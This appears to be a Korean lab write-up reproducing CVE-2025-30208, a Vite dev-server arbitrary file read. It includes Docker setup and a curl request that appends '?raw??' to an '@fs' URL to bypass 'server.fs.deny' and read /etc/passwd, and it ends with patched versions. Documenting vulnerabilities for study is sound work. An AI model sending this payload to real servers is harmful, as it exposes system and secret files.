


# CVE-2025-30208

**Contributors**

-   [김재헌(@K-Mokky)](https://github.com/K-Mokky)

<br/>

# Vite 서버 임의 파일 읽기 취약점


Vite는 프론트엔드 개발용 빌드 도구로, HMR( Hot Module Replacement )을 지원하는 개발 서버와 Rollup 기반 번들링 명령으로 구성된다.

6.2.3 / 6.1.2 / 6.0.12 / 5.4.15 / 4.5.10 이전 버전에서, 허용 목록 밖 파일 접근을 차단하는 `server.fs.deny` 기능이 우회될 수 있다.
`@fs` 접두사를 사용하는 요청 URL 끝에 `?raw??` 또는 `?import&raw??`를 덧붙이면, 요청 처리 과정에서 후행 구분자(`?`)가 제거되지만 쿼리 문자열 정규식에는 반영되지 않는 불일치 상황으로 인해 보안 검사가 우회되어, Node.js 프로세스가 읽을 수 있는 임의 파일을 읽어낼 수 있게되는 것이다.

참고 자료:

- <https://github.com/vulhub/vulhub/tree/master/vite/CVE-2025-30208>


## 환경 설정

커밋된 소스(`index.html`, `package.json`)를 로컬에서 아래 명령어로 빌드하고 어플리케이션을 실행한다.

​```
docker compose up -d --build
​```

실행이 완료되면, `http://localhost:5173`에서 취약한 Vite 6.2.2 개발 서버에 접속할 수 있다.


## 취약점 재현

### 1. 일반 요청 (403 확인)

`@fs` 접두사로 허용 목록 밖 파일(`/etc/passwd`)에 접근하면 에러코드 403이 뜨며, 접근이 거부된다.

​```
curl -i "http://localhost:5173/@fs/etc/passwd"
​```




### 2. 쿼리 우회 (임의 파일 읽기)

요청 URL 끝에 `?raw??`를 덧붙이면 `server.fs.deny` 차단이 우회되어 `/etc/passwd` 내용이 반환된다.

​```
curl "http://localhost:5173/@fs/etc/passwd?raw??"
​```



+ `?import&raw??`를 사용해도 동일한 결과를 얻을 수 있다.


## 환경 종료

아래 명령어로 빌드한 환경을 닫을 수 있다.

​```
docker compose down
​```

## 대응 방안

- Vite 6.2.3, 6.1.2, 6.0.12, 5.4.15, 4.5.10 이상으로 업데이트한다.


<span style="color:gray">이 취약점은 CNVD-2022-44615 패치를 우회하는 방식으로 발견되었다.</span>
